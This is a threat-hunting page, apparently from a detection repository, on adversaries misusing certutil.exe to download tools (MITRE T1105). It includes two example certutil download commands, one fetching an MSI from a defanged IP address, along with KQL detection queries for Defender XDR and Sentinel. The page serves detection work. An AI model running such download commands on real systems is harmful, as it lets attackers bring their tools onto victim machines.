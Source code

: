 # Certutil Remote Download

## Query Information

#### MITRE ATT&CK Technique(s)

| Technique ID | Title    | Link    |
| ---  | --- | --- |
| T1105| Ingress Tool Transfer | https://attack.mitre.org/techniques/T1105/ |

#### Description
Adversaries may transfer tools or other files from an external system into a compromised environment. Tools or files may be copied from an external adversary-controlled system to the victim network through the command and control channel or through alternate protocols. The living of the land binary certutil is know to be misused by adversaries to remotely collect malicious tools.

Malicious Examples (Sources, see references):
```PowerShell
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
certutil  -urlcache -f http[:]//23.26.137[.]225:8084/msappdata.msi c:\mpyutd.msi
```

#### Risk
An adversary transfered tools to the local device for execution.

#### References
- https://lolbas-project.github.io/lolbas/Binaries/Certutil/
- https://www.huntress.com/blog/slashandgrab-screen-connect-post-exploitation-in-the-wild-cve-2024-1709-cve-2024-1708

## Defender XDR
```KQL
DeviceProcessEvents
| where FileName == "certutil.exe"
| where tolower(ProcessCommandLine) has_all ("http", "urlcache", "-f")
| project-reorder Timestamp, ProcessCommandLine, FileName, InitiatingProcessAccountUpn
```
## Sentinel
```KQL
DeviceProcessEvents
| where FileName == "certutil.exe"
| where tolower(ProcessCommandLine) has_all ("http", "urlcache", "-f")
| project-reorder TimeGenerated, ProcessCommandLine, FileName, InitiatingProcessAccountUpn
```
